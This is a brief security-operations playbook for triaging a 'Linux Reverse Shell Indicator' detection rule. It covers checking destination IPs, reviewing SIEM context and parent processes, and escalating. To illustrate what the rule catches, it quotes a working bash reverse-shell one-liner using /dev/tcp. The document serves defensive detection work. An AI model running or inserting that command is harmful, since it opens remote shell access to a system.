 # How to process *Linux Reverse Shell Indicator* rule
This rule detects a bash contecting to a remote IP address (often found when actors do something like 'bash -i >& /dev/tcp/10.0.0.1/4242 0>&1')

# 1. Identify
- look the RAW Event for the matched command and destination IP
- check the destination IP: if it's public IP, search it on [Shodan](https://www.shodan.io/)

# 2. Contextualize
- go to SIEM and check what happened after command has been matched:
  - new connections from public IPs ? To public IPs ? Check found IPs with [Shodan](https://www.shodan.io/) 
  - downloading entries from internet ? check downloaded file hash with [VirusTotal](https://www.virustotal.com/gui/home/search)
- go to SIEM and check the parent process name (from PID): is it legitimous?


# 3. Decide
- by default this rule is dangerous. If no good indicators are found (private IP, no further action) &rarr; Incident

# Known False Negatives
None yet.

